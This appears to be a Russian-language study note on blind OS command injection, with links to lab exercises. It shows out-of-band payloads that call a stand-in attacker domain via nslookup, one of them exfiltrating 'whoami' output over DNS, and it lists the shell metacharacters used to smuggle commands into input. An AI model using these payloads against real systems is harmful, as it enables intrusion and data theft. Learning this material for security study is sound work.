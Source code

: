 Мы можем использовать введенную команду, которая запустит внеполосное сетевое взаимодействие с системой, которой мы управляем, используя методы OAST. Например:
```
& nslookup kgji2ohoyw.web-attacker.com &
```
Эта полезная нагрузка использует `nslookup`команду для вызова поиска DNS для указанного домена. Злоумышленник может отслеживать, происходит ли поиск, чтобы подтвердить, была ли команда успешно внедрена.

Вне полосный канал обеспечивает простой способ извлечения выходных данных из внедренных команд:
```
& nslookup 'whoami'.kgji2ohoyw.web-attacker.com &
```

Это вызывает DNS-поиск домена злоумышленника, содержащего результат `whoami`команды:
```
wwwuser.kgji2ohoyw.web-attacker.com
```

#### Лабы
- [[Лабораторная работа Слепое внедрение команд ОС с внеполосным взаимодействием]]

- [[Лабораторная работа Слепое внедрение команд ОС с внеполосной эксфильтрацией данных]]

# Способы внедрения команд ОС

Метасимволы оболочки — это специальные символы, которые интерпретируются командной оболочкой (shell) для выполнения определенных действий, таких как объединение команд, перенаправление вывода и т.д. Эти символы могут быть использованы для внедрения команд в уязвимые системы.

Разделители команд позволяют объединять несколько команд в одну строку. В зависимости от операционной системы, используются разные символы:

**Универсальные разделители (работают в Windows и Unix-системах):**

- `&` — выполняет команды последовательно, независимо от результата предыдущей команды.
- `&&` — выполняет следующую команду только в случае успешного завершения предыдущей.
- `|` — передает вывод одной команды на вход другой (конвейер).
- `||` — выполняет следующую команду только в случае неудачи предыдущей.

**Разделители, специфичные для Unix-систем:**

- `;` — выполняет команды последовательно, независимо от результата предыдущей.
- Новая строка (`0x0a` или `\n`) — аналогична `;`, но используется для разделения команд на разных строках.

#### Встроенные команды

В Unix-системах можно использовать обратные кавычки или символ доллара для выполнения вложенных команд:

- `` ` ``введенная команда`` ` `` — выполняет команду внутри обратных кавычек и подставляет результат в основную команду.
- `$(введенная команда)` — аналогично обратным кавычкам, но с более читаемым синтаксисом.

#### Особенности поведения метасимволов
